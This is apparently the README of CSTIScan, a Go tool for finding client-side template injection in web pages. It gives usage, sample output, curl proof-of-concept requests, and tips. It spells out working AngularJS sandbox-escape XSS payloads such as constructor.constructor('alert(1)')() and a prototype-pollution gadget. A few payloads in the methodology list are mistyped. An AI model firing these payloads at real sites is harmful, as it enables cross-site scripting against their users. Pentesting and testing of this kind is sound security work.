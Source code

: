 
![image (1)](https://github.com/user-attachments/assets/32f30552-0baf-436b-9e5f-b0cef7c0282a)
<p align="center">
   <img src="image1.png" width="100" height="100">
</p>

# 🕵️‍♂️ CSTIScan: Client-Side Template Injection (SISTEE) Scanner

CSTIScan is a powerful tool designed to identify and exploit potential Client-Side Template Injection (CSTI) vulnerabilities in web applications. CSTI occurs when user input is incorrectly handled and inserted into client-side templates, potentially leading to cross-site scripting (XSS) and other security issues.

## 🚀 Features

- 🔍 Automated scanning of single or multiple URLs
- 🧪 Tests various CSTI payloads
- 📊 Detailed vulnerability reporting
- 🛠️ Proof of Concept (PoC) generation
- 📈 Progress bar for multiple URL scans
- 🎨 Colorized console output

## 📦 Installation

1. Ensure you have Go installed on your system.
2. Clone this repository:

```
git clone https://gitlab.com/-/ide/project/sprocketsecurity/hackers/sistee
cd sistee
go mod init csti.go
go mod tidy
go build .
```


## 🔧 Usage

Public Firing Range: 

* AngularJS: [https://jsfiddle.net/2zs2yv7o/](https://jsfiddle.net/2zs2yv7o/)

* VueJS: [https://vue-client-side-template-injection-example.azu.now.sh/](https://vue-client-side-template-injection-example.azu.now.sh/)


### Help Menu

```
NAME:
   cstiscan - Scan for Client-Side Template Injection vulnerabilities

USAGE:
   cstiscan [global options] command [command options]

COMMANDS:
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --url value, -u value   Single URL to test
   --file value, -f value  File containing URLs to test
   --poc                   Output PoC details (default: false)
   --proof                 Output proof of vulnerable code (default: false)
   --help, -h              show help
```

### Example Run - Provide Proof

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --proof
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
Proof:
Payload reflection: {{7*7}}
Payload reflection: <%= 7*7 %>
Payload reflection: {{constructor.constructor('alert(1)')()}}
Payload reflection: {{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
Payload reflection: {{{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'}}
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Example Run - Provide PoC

```
./csti.go --url https://jsfiddle.net/2zs2yv7o/ --poc
 100% |█████████████| (1/1, 1 it/s)        
URL: https://jsfiddle.net/2zs2yv7o/
Vulnerable: Yes
Details:
Potential CSTI with payload
PoC:
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B7*7%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=${7*7}'
curl 'https://jsfiddle.net/2zs2yv7o/?test=<%= 7*7 %>'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7Bconstructor.constructor('alert(1)')()%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7BtoString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)%7D%7D'
curl 'https://jsfiddle.net/2zs2yv7o/?test=%7B%7B{}[{toString:[].join,length:1,0:'__proto__'}].assign=[].join;'alert(1)'%7D%7D'
--------------------------------------------------------------------------------
Results saved to csti_results.json
```

### Single URL Scan
```
./cstiscan --url https://example.com
```

### Multiple URL Scan
```
./cstiscan --file urls.txt
```

### Include PoC Commands
```
./cstiscan --url https://example.com --poc
```

### Include Proof of Vulnerable Code
```
./cstiscan --url https://example.com --proof
```

## 🔬 Methodology

### 1. Automated Scanning
The tool performs the following steps:
- Fetches the target URL(s)
- Analyzes the HTML content for potential CSTI vectors
- Tests various CSTI payloads
- Generates a detailed report of findings

### 2. Manual Verification
For each potentially vulnerable URL:
1. Open the URL in a browser
2. Open the browser's developer console
3. Inject test payloads into user input fields or URL parameters
4. Check for unexpected behavior or script execution

### 3. CSTI Payload Testing
The tool tests various payloads, including:

```
{{77}}
${77}
<%= 7*7 %>
{{constructor.constructor('alert(1)')()}}
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor)}}
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```

### 4. Identifying Vulnerable Templates
The scanner looks for patterns that might indicate template usage, such as:
- `{{ }}` (Mustache, Handlebars, AngularJS, Vue.js)
- `${ }` (ES6 template literals, some frameworks)
- `<%= %>` (EJS, Underscore.js)

## 📊 Results

- The tool outputs a table with vulnerable URLs, details, and optional PoC commands
- For manual testing, document:
  - The URL tested
  - The payload used
  - The observed behavior (e.g., unexpected script execution, template evaluation)
- Results are saved in JSON format for further analysis

## 💡 Tips & Tricks

1. **URL Parameter Testing**: Try injecting payloads via URL parameters:

```
https://target.com/page?param={{7*7}}
```

2. **Combine with XSS**: CSTI can often lead to XSS, test with alert functions:

```
{{constructor.constructor('alert("CSTI vulnerability")')()}}
```

3. **Check for Different Template Engines**: Different frameworks use different syntax, test various formats:

* `{{ }}` for Mustache, Handlebars, AngularJS, Vue.js
* `${ }` for ES6 template literals
* `<%= %>` for EJS, Underscore.js

4. **Prototype Pollution via CSTI**: Some payloads can lead to prototype pollution:

```
{{{}[{toString:[].join,length:1,0:'proto'}].assign=[].join;'alert(1)'}}
```
